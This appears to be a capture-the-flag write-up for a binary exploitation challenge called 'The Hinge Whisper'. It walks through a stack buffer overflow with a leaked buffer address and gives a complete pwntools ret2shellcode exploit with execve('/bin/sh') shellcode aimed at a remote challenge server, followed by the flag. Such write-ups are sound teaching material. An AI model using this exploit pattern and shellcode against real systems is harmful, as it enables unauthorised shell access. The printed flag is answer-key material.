


## Challenge Description

```
The room shouldn't exist. No record in Crownspire's registry places a private library on this floor, no watch schedule accounts for the hour it takes to reach it, and that's exactly why Rin is standing in it now. Dust holds the shape of a desk nobody's touched since before the white fire. Shelves half burned, half intact. In the far wall sits an old strongbox with a hatch built into its face, sealed the way a man seals something he never wants opened again, not by anyone, not even by himself on a better day. Nobody sent Rin here. She came because the under-levels are hers to answer for, and lately every runner who comes back from the southern roads brings the same story: the Quiet Marches are moving, and whatever Alyss intends next, it isn't going to stop at a border. Maelor kept files on things he feared enough to bury, and Rin is betting that a girl who should have died in one of his purges made that list. If there's a way to know what's coming before it reaches her people, it's behind this hatch. One lock stands between her and an answer, and she means to have it before the watch changes.
```

---

## Initial Recon

We receive a single binary:

```
$ pwn checksec the_hinge_whisper
[*] '/root/CTF/HTB/CA2026/pwn/The_hinge_whisper/the_hinge_whisper'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:    No
```

No canary and no NX(the stack is executable)

Running the binary, it leaks a stack address before reading input:



---

## Analysis

Disassembling `service_hatch` shows a buffer overflow: `read()` accepts up to 0x50 bytes into a 0x40-byte stack buffer.

```asm
   0x000000000000122d <+74>:   lea    rax,[rbp-0x40]
   0x0000000000001231 <+78>:   mov    edx,0x50
   0x0000000000001239 <+86>:   mov    edi,0x0
   0x000000000000123e <+91>:   call   0x10b0 <read@plt>
```

The leaked address points directly to the beginning of our input buffer:

```
[+] The keyway sits at: 0x7fffffffddf0
[+] Forge your latch-key: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

```
pwndbg> x/10gx 0x7fffffffddf0
0x7fffffffddf0: 0x4141414141414141  0x4141414141414141
0x7fffffffde00: 0x4141414141414141  0x0a41414141414141
[...]
```

Since the stack is executable and we have the exact address of our buffer, this is a ret2shellcode: place shellcode at the beginning of the buffer, pad to the return address, and overwrite it with the leaked address.

---

## Exploit

```python
from pwn import *

io = remote("154.57.164.67", 30339)

context.arch = 'amd64'

io.recvuntil(b"[+] The keyway sits at:")
addr = int(io.recvline().strip(), 16)
log.success(f"Leak addr: {hex(addr)}")

shellcode = asm("""
    xor rax, rax
    push rax
    mov r10, 0x0068732f6e69622f
    push r10
    mov rdi, rsp
    mov eax, 0x3b
    mov esi, 0
    mov edx, 0
    syscall
""")

offset = b"A" * (72 - len(shellcode))
payload = shellcode + offset + p64(addr)

io.sendafter(b"[+] Forge your latch-key:", payload)
io.interactive()
```

---

## Flag



```
HTB{th3_h1ng3_wh1sp3r5_t0_th0s3_wh0_l1st3n_f40846251a4b14e66e405e40f9b070a4}
```